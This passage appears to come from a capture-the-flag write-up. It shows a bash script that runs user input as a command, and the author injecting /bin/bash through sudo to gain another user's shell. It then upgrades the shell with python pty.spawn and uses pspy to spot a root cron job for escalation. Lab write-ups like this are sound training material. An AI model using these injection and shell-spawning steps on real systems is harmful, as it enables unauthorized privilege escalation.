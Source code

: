 ```console
read -p "Enter 'date' to timestamp the file: " error <--------Inject /bin/bash here
printf "The Date is "
$error 2>/dev/null

date_save=$(date "+%F-%H-%M")
cp /var/stats/stats.txt /var/stats/stats-$date_save.bak

printf "Stats have been backed up\n"

```
Ran the script and injected the command 
```console
dale@TEAM:~$ sudo -u gyles /home/gyles/admin_checks
Reading stats.
Reading stats..
Enter name of person backing up the data: gyles
Enter 'date' to timestamp the file: /bin/bash
The Date is id
uid=1001(gyles) gid=1001(gyles) groups=1001(gyles),1003(editors),1004(admin)
python -c "import pty; pty.spawn('/bin/bash')"
ls
user.txt
python3 -c "import pty; pty.spawn('/bin/bash')"
gyles@TEAM:~$ ls
user.txt
gyles@TEAM:~$ id
uid=1001(gyles) gid=1001(gyles) groups=1001(gyles),1003(editors),1004(admin)
```

On loading linpeas to the system found a cronjob running as root on the system <br />
So loaded `pspy64s`  on the system for further enumeration <br />
Found a main script running as root
```console
gyles@TEAM:/tmp$ ./pspy64s
Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scannning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...
ERROR: parsing events: possible inotify event overflow
done
2022/10/11 07:25:22 CMD: UID=0    PID=99     |
2022/10/11 07:25:22 CMD: UID=1001 PID=9672   | ./pspy64s
2022/10/11 07:25:22 CMD: UID=1001 PID=9621   | /bin/bash
2022/10/11 07:25:22 CMD: UID=1001 PID=9620   | python3 -c import pty; pty.spawn('/bin/bash')
2022/10/11 07:25:22 CMD: UID=0    PID=9617   |
2022/10/11 07:25:22 CMD: UID=1001 PID=9607   | /bin/bash
<--snip-->
2022/10/11 07:26:01 CMD: UID=0    PID=9683   | /bin/bash /usr/local/bin/main_backup.sh
2022/10/11 07:26:01 CMD: UID=0    PID=9682   | /bin/bash /opt/admin_stuff/script.sh <-----crounhob
2022/10/11 07:26:01 CMD: UID=0    PID=9681   | /usr/sbin/CRON -f
2022/10/11 07:26:01 CMD: UID=0    PID=9685   | /bin/bash /usr/local/bin/main_backup.sh

```
